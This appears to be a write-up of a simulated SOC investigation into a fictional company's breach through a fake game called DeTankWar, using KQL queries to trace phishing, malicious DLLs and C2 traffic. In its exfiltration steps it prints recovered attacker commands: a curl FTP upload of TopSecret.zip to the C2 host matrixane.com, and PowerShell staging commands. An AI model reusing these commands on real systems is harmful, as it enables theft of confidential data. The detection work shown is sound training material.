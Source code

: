 # 🎮 DeTankWar Incident: Breach of Project Omega

> A high-stakes cybersecurity case study involving North Korean APT group Moonstone Sleet, malicious gaming software, and the compromise of TitanShield's classified AI defense project.

---
🎥 **[Watch Full Investigation Video (SOC2)](https://drive.google.com/file/d/19HkNb6Tv7oYkP5C6rBIEeBJiA6JQtG4s/view?usp=drive_link)**  
> A realistic SOC simulation built with KQL, process analysis, phishing forensics, and file exfiltration tracking.

## 🧠 Background: Project Omega

TitanShield was working on **Project Omega**—a revolutionary autonomous defense system. Designed for intelligent threat neutralization, it was the most classified project in the company's arsenal.

But then... one game changed everything.

---

## 🎮 Suspicious Activity Begins

An employee named **James Douglas** downloaded a game named **DeTankWar** after seeing a flashy post. He reported his system slowing down. The security team began the investigation.

---

## 🕵️‍♂️ Step 1: Identify James' Host

```kql
Employees
| where name has "James Douglas"
```
 Hostname: UB9I-DESKTOP

 ---
 ### 🔍 Step 2: Check for Game Installation

I queried the system to see if the suspicious game `DeTankWar` was installed on the device belonging to James Douglas (`UB9I-DESKTOP`).

```kql
FileCreationEvents
| where hostname == "UB9I-DESKTOP"
| where filename has "DeTankWar"
```
✅ Result: Malicious game file was found on the host.

SHA256 for this file is found to be :
56554117d96d12bd3504ebef2a8f28e790dd1fe583c33ad58ccbf614313ead8c
---
## 🧪 Step 3: Analyze in Microsoft Defender XDR

After retrieving the file hash, it was submitted to Microsoft Defender XDR.

- ✅ **Secure Score**: `100`
- ❌ **Verdict**: Malicious
- 🔍 **Threat Actor Identified**: `Moonstone Sleet`

---

## 🌍 Step 4: Threat Actor Profile – Moonstone Sleet

- 🏴 **Origin**: North Korea  
- 🎯 **Targets**: Defense Industrial Base  
- 🎭 **Motivation**: Espionage & Revenue Generation  
- 🔁 **Overlaps With**: Diamond Sleet (Another DPRK threat actor)

---

## 📧 Step 5: Check for Phishing Emails

**Domain Involved**: `detankwar.com`

```kql
Email
| where link has "detankwar.com"
```
✅ 6 phishing emails identified in the environment.

---
## 📬 Step 6: Targeted Employee List

I investigated who among TitanShield employees received phishing emails containing links to the malicious domain.

```kql
Email
| where link has "DeTankWar"
| distinct recipient
```
✅ Result: 6 distinct employees were targeted.

🧑‍💻 Enrich With Employee Details

```kql
Email
| where link has "DeTankWar"
| distinct recipient
| join kind=inner Employees on $left.recipient == $right.email_addr
| distinct email_addr, name, role
```
🎯 Most impacted role: Defense Engineer
---
# 🐛 Step 7: Malware Artifacts Detected

The threat actor deployed multiple known malicious payloads disguised as game components:

- `delfi-tank-unity.exe`  
- `nvunityplugin.dll`  
- `unityplayer.dll`  

```kql
FileCreationEvents
| where filename in~ ("nvunityplugin.dll", "unityplayer.dll")
```
✅ 6 DLLs found on the network.

SHA256: 09d152aa2b6261e3b0a1d1c19fa8032f215932186829cfcca954cc5e84a6cc38

👤 Attribution: Moonstone Sleet
---
## 📡 Step 8: C2 Communication Attempt

Threat intelligence reported the following **Command & Control (C2) domains**:

- `mingeloem[.]com`  
- `matrixane[.]com`  

I investigated outbound command-line usage for suspicious communication attempts involving these domains.

```kql
ProcessEvents
| where process_commandline has "curl"
| where process_commandline has_any ("mingeloem.com", "matrixane.com")
```
✅ Data exfiltration command found:
```
curl -T C:\ReadyToGo\TopSecret.zip ftp://matrixane.com/upload/ --user exfil:tankpass
```
🚨 Critical Finding: Data was being transferred via FTP to an external C2 server controlled by the attacker.
---
## 📦 Step 9: Examine Compressed File

I investigated how the attacker created the archive file `TopSecret.zip`, which contained sensitive data prepared for exfiltration.

```kql
ProcessEvents
| where process_commandline has "TopSecret.zip"
```
✅ PowerShell archive activity detected:
```
Compress-Archive -Path C:\StagingArea\* -DestinationPath C:\ReadyToGo\TopSecret.zip
```
📦 Conclusion: Files from C:\StagingArea were compressed into a .zip archive — an essential stage before data exfiltration.
---
## 📁 Step 10: Reveal What Was Stolen

I investigated file operations involving the staging directory to confirm what was exfiltrated. The attacker copied highly confidential project data in preparation for export.

```kql
ProcessEvents
| where process_commandline has "StagingArea"
```
✅ Payload preparation activity detected:
```
Copy-Item -Path \\company_share\confidential\defense\project_omega\* -Destination C:\StagingArea\ -Recurse
```
---

